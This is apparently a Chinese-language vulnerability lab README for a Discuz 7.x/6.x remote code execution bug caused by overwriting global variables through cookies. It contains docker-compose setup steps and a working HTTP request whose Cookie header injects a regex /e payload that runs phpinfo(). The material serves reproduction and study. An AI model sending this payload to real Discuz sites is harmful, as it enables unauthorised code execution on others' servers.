

# Discuz 7.x/6.x 全局变量防御绕过导致代码执行

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 漏洞环境

执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。


## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close


```

可见，phpinfo已成功执行：



> 网上文章说需要一个带表情评论的帖子，实际测试发现并不需要，这块仍需阅读代码来解释原因。
